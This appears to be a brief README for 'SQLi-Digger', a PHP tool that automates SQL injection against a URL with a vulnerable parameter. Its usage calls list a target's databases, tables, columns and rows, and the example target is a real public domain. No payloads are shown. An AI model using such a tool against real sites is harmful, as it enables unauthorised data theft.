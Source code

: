 SQLi-Digger
===========


Usage:
TARGET_URL=Must finish with vulnerable var(ex: http://google.com/index.php?id=1)

$injection=new SqlDigger(TARGET_URL);

$injection->init();

$injection->getRows();

* $injection->currentTable(); // returns current table
* $r=$injection->show('databases'); //returns databases
* $r=$injection->show('tables',array('db'=>'DATABASE')); //returns tables from DATABASE
* $r=$injection->show('columns',array('db'=>'DATABASE','table'=>'TABLE')); //returns colums from DATABASE.TABLE
